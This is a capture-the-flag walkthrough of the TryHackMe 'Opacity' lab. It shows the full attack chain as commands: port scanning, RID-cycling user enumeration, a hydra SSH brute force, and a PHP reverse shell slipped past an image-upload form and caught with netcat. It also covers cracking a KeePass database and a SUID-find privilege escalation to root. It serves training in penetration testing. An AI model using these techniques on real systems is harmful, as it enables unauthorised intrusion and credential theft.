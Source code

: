 # The Room > TryHackMe | Opacity

**Skills:**

- Cracking KeePass password manager
- RPC RID Cycling Attack (Manual brute force) + Xargs Boost Speed Tip - Discovering valid system users
- Scripts Exploitation
- Abusing Image Upload Form [RCE]
- Listing system files and discovering privileged information
- Abusing SUID binary (find) [Privilege Escalation]

## The Walkthrough/Writeup

```bash
nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv victimIp
```

Now that we have some information, let's dig deeper into the scanning process using the `-sC` parameter and also use `-sV` to detect the versions and services running on the open ports. The complete command for this action would be:

```bash
nmap -sC -sV -p22,80,139,445 ipvictim
```

As we can see, we have the services and their versions. We also notice that there is an access panel `login.php`, and we have Samba running, so we can try to enumerate users as we did in previous articles. However, let's first review that access panel.

We reviewed the source code and the access panel, but we didn't find anything interesting. So let's use `gobuster` to see what directories we can find, and at the same time, we can try to enumerate users using `rpcclient`. Here's the command for `gobuster`:

```bash
gobuster dir -u 10.10.19.229 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --add-slash -x php
```

And in another terminal window, we'll use this command to enumerate users:

```bash
seq 1 1500 | xargs -P 50 -I {} rpcclient -U "" victim-ip -N -c "lookupsids S-1-22-1-{}" | grep -oP '.*User\\[a-z].*\s'
```

`Gobuster` found a directory called `/cloud/` and `rpcclient` gave us a user `sysadmin`. We can try to brute-force the SSH service using `hydra` with the command:

```bash
hydra -l sysadmin -P ../../wordlist/rockyou.txt ssh://ipvictim
```

Meanwhile, let's review that `/cloud/` directory.

We have a "Personal Cloud Storage" on the server, but it only accepts uploading images from a URL. So, it is possible to use Python to establish a server on our system and alter our reverse shell to bypass the victim's server's security measures. For this, we'll use the PentestMonkey reverse shell and I recommend the Hack-Tools extension to have everything at hand (I discovered this extension thanks to Gary Ruddell).

Once we have our reverse shell, let's open our server using the following command:

```bash
python3 -m http.server 80
```

Remember to have the reverse shell in the same directory where you opened the server. If we open our IP (in this case the one provided by the TryHackMe VPN), we can see the files we have in the directory.

Now, what we'll do is listen for incoming connections using the command:

```bash
nc -nlvp 1234
```

On the victim's website, we'll put our address containing the reverse shell, in my case it is: `http://10.2.39.16/rev.php#.jpg`. Using the `.php#.jpg`

 extension, I was able to hide the reverse shell.

We have successfully connected and are now on the victim server as `www-data`. The next step is to escalate privileges. For this, I recommend following the Linux Privilege Escalation guide on Hacktricks.

But before we proceed, let's apply a tty treatment using the following commands:

```bash
script /dev/null -c bash (press Enter)
Ctrl + Z (press)
stty raw -echo; fg (press Enter)
reset xterm (press Enter)
export TERM=xterm (press Enter)
export SHELL=/bin/bash (press Enter)
stty rows 61 columns 186 (press Enter)
```

These commands will create a new pseudo-terminal with proper TTY settings. This is necessary for some privilege escalation techniques to work properly.

The first thing we need to do is to check the directory `/var/www/html`. Often, we can find interesting things there. In this case, we found a file called `login.php`. If we open it using the `cat` command (`cat login.php`), we can see three users with their respective passwords. These should be the users for the website's login panel. Let's check it out.

There's nothing interesting on the website, let's check the `/home` folder. We see that there's a user called `sysadmin` - the same user we found when we used `rpcclient`. If I recall correctly, we had left `hydra` running a brute force attack on this user. Let's check what we found in `hydra`.

`Hydra` hasn't found anything yet. I'll leave it running while I keep searching. If we dig deeper into the `sysadmin` user's content, we can see the `scripts` folder and the `local.txt` file inside it. There are more files inside the `scripts` folder, but they have root or `sysadmin` permissions. Therefore, we need to gain access as this user to view them.

While searching the server, I recommend checking the `/opt` directory as interesting things can be found there. This time we found a `dataset.kdbx` file, which could be a KeePass password manager file that uses the KDBX file format to store and protect passwords. Let's download the `dataset.kdbx` file to our computer and try to crack it using our good friend John. We'll use the following command:

```bash
keepass2john dataset.kdbx > kdbx.hash
```

and then

```bash
john --wordlist=rockyou.txt kdbx.hash
```

Once we have the password, we can use the following command:

```bash
keepass dataset.kdbx
```

and enter the password when prompted by the program.

We now have the password to access the system as the sysadmin user. We can review this user's files to try to gain root privileges. By examining the file permissions, we notice that we own one of the files. Additionally, we see that the `script.php` file is owned by the root user and the sysadmin group, meaning this script runs as root. If we analyze the script's code, we see that it refers to the other script that we own. Therefore, if we add "malicious" code to our script, we may be able to gain root access.

The "malicious" code we will use is as follows:

```php
$command = 'chmod u+s /usr/bin/find';
$output = exec($command);
```

This code will set the setuid bit for the `/usr/bin/find` command.

When the script is executed, it will give the setuid permissions to the `find` command, which will allow us to later use the following command:

```
find . -exec /bin/sh -p \; -quit
```

This will give us root access. By executing this command, we will launch a shell as the root user, giving us full control over the system.

Now that we have our plan ready, we need to find out how the `script.php` is executed. Most likely, it is scheduled as a cron job on the system.

We can check the cron configuration file located in `/etc/crontab` or in the `/etc/cron.d` folder to see if we can find the task that executes the script. We can also use the `crontab -l` command to list the scheduled tasks in the current user's cron and see if the script is scheduled there.

Alright, it sounds like we weren't able to find the cron job that executes the `script.php`. In that case, using the `pspy64` tool to gather more information about the system is a good idea.

`pspy64` is a tool that monitors processes and helps identify potential privilege escalation vectors on a system. We can use it to see if there are any processes or scripts that are being executed with higher privileges than they should be.

Thanks to `pspy64`, we have realized that the script actually runs every so often, so all we have to do is add our "malicious" code to our file and wait for it to execute.

After executing our "malicious" code, we run the following command:

```
find . -exec /bin/sh -p ; -quit
```

We will gain access as Root and thus we will consider the Opacity TryHackMe machine completed.
